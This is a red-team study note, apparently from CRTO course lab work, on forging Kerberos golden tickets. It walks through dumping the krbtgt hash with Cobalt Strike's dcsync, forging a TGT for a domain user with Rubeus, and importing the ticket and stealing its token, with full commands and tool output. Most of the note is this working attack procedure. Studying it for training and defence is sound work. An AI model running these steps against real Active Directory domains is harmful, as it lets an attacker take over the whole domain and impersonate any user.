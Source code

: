 
A "golden ticket" is a forged TGT, signed by the domain's krbtgt account. The underlying credentials are never changed automatically. 

####  📗 Difference Between Silver and Golden

A silver ticket can be used to impersonate any user, but it's limited to either that single service or to any service but on a single machine.

A golden ticket can be used to impersonate any user, to any service, on any machine in the domain.

The krbtgt NTLM/AES hash is probably the single most powerful secret you can obtain (and is why you see it used in [[dcsync]] examples so frequently).

#### 🖊️ via Cobalt Strike

1) A common method for obtaining the krbtgt hash is to use dcsync from the context of a domain admin.

```
beacon> dcsync dev.cyberbotic.io DEV\krbtgt

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e
      aes128_hmac       (4096) : 6fb62ed56c7de778ca5e4fe6da6d3aca
      des_cbc_md5       (4096) : 629189372a372fda
```

2) The ticket can be forged offline using Rubeus.

```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : DEV.CYBERBOTIC.IO (DEV)
[*] SID            : S-1-5-21-569305411-121244042-2357301523
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : 51D7F328ADE26E9F785FD7EEE191265EBC87C01A4790A7F38FB52E06563D4E7E
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : 51D7F328ADE26E9F785FD7EEE191265EBC87C01A4790A7F38FB52E06563D4E7E
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : dev.cyberbotic.io

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'nlamb@dev.cyberbotic.io'

[*] AuthTime       : 9/9/2022 11:16:23 AM
[*] StartTime      : 9/9/2022 11:16:23 AM
[*] EndTime        : 9/9/2022 9:16:23 PM
[*] RenewTill      : 9/16/2022 11:16:23 AM

[*] base64(ticket.kirbi):

     doIFLz[...]MuaW8=
```


3) And then imported into a logon session to use.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=`
```
[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5060
[+] Ticket successfully imported!
[+] LUID            : 0x449047

beacon> steal_token 5060
beacon> run klist

#0>	Client: nlamb @ DEV.CYBERBOTIC.IO
	Server: krbtgt/dev.cyberbotic.io @ DEV.CYBERBOTIC.IO
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
```




#### ⚠ Opsec




### Properties
---
📆 created   {{25-02-2024}} 13:46
🏷️ tags: #redteam #crto 

---

